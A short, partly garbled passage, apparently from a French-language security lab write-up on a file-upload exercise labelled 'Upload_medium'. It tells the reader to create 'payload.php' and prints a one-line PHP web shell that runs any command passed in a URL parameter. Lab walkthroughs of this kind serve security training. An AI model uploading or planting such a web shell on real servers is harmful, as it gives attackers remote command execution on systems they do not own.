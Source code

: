 # Secu
*   1 . Upload_medium
Il faut tout d'abord créer un fichier en `.php` comme par exemple, `payload.php`
```
<?php
echo shell_exec($_GET['cmd']);
?>*
```
